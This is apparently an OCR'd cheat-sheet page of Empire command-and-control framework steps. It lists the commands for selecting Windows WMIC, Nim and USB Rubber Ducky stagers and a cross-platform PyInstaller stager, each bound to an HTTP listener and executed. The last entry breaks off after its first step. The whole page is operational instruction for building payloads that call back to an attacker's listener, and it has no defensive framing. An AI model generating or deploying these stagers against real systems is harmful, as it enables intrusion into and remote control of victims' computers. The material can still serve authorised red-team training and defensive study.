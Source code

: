 ------------------------------------------------------------------------------------------------------------------------------------------------------------ 

### WMIC Command Execution Payload for Windows with Empire BC

1. **Select the Stager**:
    ```bash
    usestager windows_wmic
    ```

2. **Bind the Stager to the Listener**:
    ```bash
    set Listener MyHttpListener
    execute
    ```
    
------------------------------------------------------------------------------------------------------------------------------------------------------------ 

### Nim Language-Based Payload Execution for Windows with Empire BC

1. **Select the Stager**:
    ```bash
    usestager windows_nim
    ```

2. **Bind the Stager to the Listener**:
    ```bash
    set Listener MyHttpListener
    execute
    ```

------------------------------------------------------------------------------------------------------------------------------------------------------------

### USB Rubber Ducky Payload for Windows Systems with Empire BC

1. **Select the Stager**:
    ```bash
    usestager windows_ducky
    ```

2. **Bind the Stager to the Listener**:
    ```bash
    set Listener MyHttpListener
    execute
    ```

------------------------------------------------------------------------------------------------------------------------------------------------------------

### Cross-Platform Payload Builder with PyInstaller with Empire BC

1. **Select the Stager**:
    ```bash
    usestager multi_pyinstaller
    ```

